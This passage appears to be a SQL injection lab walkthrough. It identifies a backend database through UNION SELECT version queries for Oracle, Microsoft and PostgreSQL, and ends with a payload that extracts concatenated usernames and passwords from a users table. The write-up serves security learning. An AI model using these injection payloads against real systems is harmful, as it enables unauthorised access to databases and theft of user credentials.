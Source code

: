 Response

![image](https://github.com/user-attachments/assets/90de8795-b251-4abc-ab03-fc37675bdc8f)



#### Determine the type of database -

![image](https://github.com/user-attachments/assets/20f4049c-c7f5-44e8-8663-0bf9651ff7a3)


Since we know 2nd column is containing text data, we can try to use version command of each database system to identify the type of database present in the backend.

**ORACLE**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --
```

![image](https://github.com/user-attachments/assets/1170d66b-9d2f-4a25-988d-c82f1c94e31f)


500 - SERVER ERROR

**Microsoft**


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,@@version --
```

![image](https://github.com/user-attachments/assets/9c2a9c68-f2c5-4e7c-8f3f-671e07881585)

500 - Server Error

> NOTE - Syntax for findng version is the same for both Microsoft and MYSQL



**PostgreSQL**



```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,version() --
```

![image](https://github.com/user-attachments/assets/7db14f2d-d566-429d-8f38-cc612b850045)


We can confirm that this is an POSTgreSQL db in backend.

![image](https://github.com/user-attachments/assets/f8a0f802-d3a4-4ba8-94a7-d82b4b31d7f4)


#### Retreive multiple values in single column -

For POSTgreSQL , the syntax for string concatination is `'foo'||'bar'`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,username||'-'||password FROM users --
```
Request
